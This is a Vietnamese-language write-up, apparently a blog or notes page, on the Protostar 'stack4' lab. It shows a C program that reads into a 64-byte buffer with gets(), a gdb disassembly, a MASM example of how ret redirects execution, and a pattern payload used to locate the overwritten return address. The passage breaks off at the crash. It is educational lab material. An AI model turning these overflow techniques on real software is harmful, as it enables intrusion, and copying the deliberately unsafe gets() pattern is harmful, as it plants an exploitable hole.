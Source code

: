 ## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Sau khi hít đống hành tươi trên internet thì mình đã thấy như sau khi `disassemble main` bằng `gdb`:
```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   %ebp
0x08048409 <main+1>:	mov    %esp,%ebp
0x0804840b <main+3>:	and    $0xfffffff0,%esp
0x0804840e <main+6>:	sub    $0x50,%esp
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) 
```
Để ý vào `<main+22>` ta thấy đó là câu lệnh `ret` nó sẽ nhảy đến giá trị địa chỉ ở đỉnh `stack` và `pop` giá trị đó ra `.__.` nhìn có vẻ khó hiểu nhỉ. Okay vậy mình có ví dụ như này cho dễ hiểu:
```
	main proc
		push ebp
		mov ebp, esp
		push 00401003h   <-- địa chỉ của dòng này là 0x00401003
		ret
		ret
	main endp
	end main
```
Đây là đoạn code `masm` mình đã dùng để test khi debug bằng `IDA` có thể giải thích như sau:  
	- dòng `push 00401003h` sẽ tự push địa chỉ của nó vào `stack`  
	- Câu lệnh `ret` bên dưới sẽ gán giá trị của `eip` bằng `00401003` và `pop` nó ra khỏi stack  
	- `eip` sẽ thực thi câu lệnh ở `0x00401003` (`push 00401003h`) từ đó tạo ra loop vô hạn :v  
Để ý lại stack0 ta thấy rằng khi overflow quá length `buffer` thì ta có thể overflow đến giá trị mà `ret` có thể sử dụng vậy việc bây giờ cần làm là tìm ra vị trí đó:
```
user@protostar:/opt/protostar/bin$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'" > /tmp/payload_st4
user@protostar:/opt/protostar/bin$ gdb stack4
(gdb) b *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) r < /tmp/payload_st4 
Starting program: /opt/protostar/bin/stack4 < /tmp/payload_st4

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x5353535b
```